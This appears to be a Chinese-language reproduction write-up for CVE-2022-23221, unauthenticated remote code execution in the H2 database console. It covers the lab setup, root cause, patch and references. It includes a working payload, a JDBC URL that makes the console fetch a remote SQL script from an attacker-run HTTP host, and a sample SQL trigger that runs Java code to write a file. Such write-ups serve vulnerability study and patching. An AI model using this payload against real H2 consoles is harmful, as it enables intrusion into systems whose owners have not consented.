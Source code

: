 - [CVE-2022-23221 H2 未授权远程代码执行](#cve-2022-23221-h2-未授权远程代码执行)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [原理分析](#原理分析)
  - [复现](#复现)
    - [步骤](#步骤)
  - [补丁](#补丁)
  - [参考](#参考)
# CVE-2022-23221 H2 未授权远程代码执行
## 影响版本
H2 Version < v2.1.210
## 环境搭建
以mvn为例
1. 修改poc.xml文件,添加springboot和h2依赖.
```xml
    <dependencies>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter</artifactId>
        </dependency>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-test</artifactId>
            <scope>test</scope>
        </dependency>
        <dependency>
            <groupId>com.h2database</groupId>
            <artifactId>h2</artifactId>
            <scope>runtime</scope>
            <version>2.0.204</version>
        </dependency>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
        </dependency>
        <dependency>
            <groupId>org.springframework</groupId>
            <artifactId>spring-web</artifactId>
            <version>5.3.14</version>
        </dependency>
    </dependencies>
```
2. 修改application.properties文件,开启h2console访问
```xml
spring.h2.console.settings.web-allow-others=true
```
3. 启动Sprringboot,访问h2Console控制台。
![](2.png)
## 原理分析
默认情况下当H2使用嵌入式URL指定数据库时,指定一个不存在的数据库时会默认创建一个空的数据库。官方说明如下  
![](6.png)
而嵌入式URL中支持内存数据库,而且在连接时可以从SQL文件中执行SQL语句进行初始化,而该SQL文件的路径可以是远程的HTTP路径。
![](7.png)
而h2的SQL语法中又支持执行JAVA代码导致RCE。
相关代码如下:
![](8.png)
![](9.png)
## 复现
Payload
```
jdbc:h2:mem:1337;IGNORE_UNKNOWN_SETTINGS=TRUE;FORBID_CREATION=FALSE;INIT=RUNSCRIPT FROM ' http://172.17.92.236:8081/poc.sql';'\
```
其中`http://172.17.92.236:8081/poc.sql`替换为要执行的恶意sql文件访问路径.  

恶意sql文件内容示例,该sql语句将在`E:\tmep\`下创建文件poctest。
```sql
CREATE TABLE test (
     id INT NOT NULL
 );

CREATE TRIGGER TRIG_JS BEFORE INSERT ON TEST AS '//javascript
var fos = Java.type("java.io.FileOutputStream");
var b = new fos ("E:\\temp\\poctest");';

INSERT INTO TEST VALUES (1);
```
### 步骤
在JDBC URL 中输入Payload,点击Connect。
![](1.png)
页面刷新后,再次点击Connect,即可触发SQL语句执行,成功写入文件。

![](3.png)
## 补丁
官方已修复该漏洞,升级H2版本到v2.1.210+即可。
增加了一个标志位来防止指定数据库不存在时建立空的数据库。
![](4.png)
![](5.png)
## 参考
https://h2database.com/html/features.html?highlight=mem&search=mem#in_memory_databases  
https://github.com/h2database/h2database/compare/version-2.0.206...version-2.1.210  
https://packetstormsecurity.com/files/165676/H2-Database-Console-Remote-Code-Execution.html